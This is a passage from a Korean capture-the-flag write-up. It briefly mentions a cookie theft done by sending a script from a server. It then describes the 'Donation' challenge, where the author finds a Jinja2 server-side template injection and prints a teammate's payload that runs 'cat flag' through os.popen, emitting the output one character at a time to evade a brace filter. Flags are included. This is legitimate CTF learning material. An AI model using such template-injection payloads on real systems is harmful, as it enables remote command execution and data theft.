 서버에서 스크립트 보내서 쿠키 탈취했다

`flag{31837ae2b1fffc0d3f602eff406cebf936307e82904b0da5605c147ab465ee91}`

---

### Donation
블랙박스 문제이다.  
로그인 한 후 가진 돈을 기부하는 기능이 있고 기부할 때 기부 메시지를 적을 수 있다.

여기서 방향성이 전혀 안보여서 애 좀 먹었다
삽질하다보니 중괄호 넣고 요청하면 오류메시지가 출력 되는걸 알 수 있었고 서버가 python으로 돌아가고 있다는걸 http 헤더에서 발견해 SSTI라는걸 유추했다.

필터링이 좀 빡세게 걸려있어서 익스 못하고 있었는데 팀원분이 기가 막히게 익스해버리셨다.

```python
{% for key in self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() %}
{% if key == 'f' %}
f
{% elif key == '0' %}0
{% elif key == '1' %}1
{% elif key == '2' %}2
{% elif key == '3' %}3
{% elif key == '4' %}4
{% elif key == '5' %}5
{% elif key == '6' %}6
{% elif key == '7' %}7
{% elif key == '8' %}8
{% elif key == '9' %}9
{% elif key == 'a' %}a
{% elif key == 'b' %}b
{% elif key == 'c' %}c
{% elif key == 'd' %}d
{% elif key == 'e' %}e
{% elif key == 'f' %}f
{% elif key == 'A' %}A
{% elif key == 'B' %}B
{% elif key == 'C' %}C
{% elif key == 'D' %}D
{% elif key == 'E' %}E
{% elif key == 'F' %}F
{% elif key == 'l' %}l
{% elif key == 'g' %}g

{% else %}
?
{% endif %}
{% endfor %}
```

저렇게 다 따로 출력하는 이유는 플래그에 있는 중괄호 필터링 때문에 응답이 안와서 한 글자씩 중괄호만 빼고 출력해서 그렇다

`flag{c59abb2a665a38345ee0d92687aeec35002721ccfd12a807b802a3436afe6183bcc618e1953771fd39ed3d3bbd696f947b3e90408547246a}`
